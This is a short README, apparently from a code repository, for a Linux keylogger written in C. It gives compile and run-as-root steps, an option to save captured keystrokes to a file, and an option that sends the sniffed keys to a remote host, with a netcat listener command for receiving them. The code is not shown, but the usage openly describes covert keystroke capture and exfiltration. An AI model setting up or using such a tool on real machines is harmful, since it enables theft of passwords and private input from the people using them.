 # Keylogger for Linux
A simple keylogger for linux written in C.

### Usage
To compile the keylogger, type ```make```.
Run ```keylogger``` file with root permission.

You can save the output with ```-f filename``` option. For example:
```
# keylogger -f keys.txt
```

You can redirect sniffed keys in a remote server, using ```-s ip:port``` option. For example:
```
# keylogger -s 127.0.0.1:12345
```
The server would be a netcat server listening on a specific port.
```
nc -l -p 12345
```


